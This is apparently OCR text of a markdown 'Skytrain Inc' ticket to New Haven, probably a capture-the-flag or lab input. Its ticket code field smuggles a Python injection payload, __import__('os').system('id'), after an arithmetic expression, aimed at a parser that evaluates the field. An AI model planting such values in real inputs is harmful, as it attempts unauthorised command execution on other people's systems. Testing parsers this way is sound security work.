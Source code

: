 # Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**32+410+86**+__import__('os').system('id')
##Issued: 2021/04/06
#End Ticket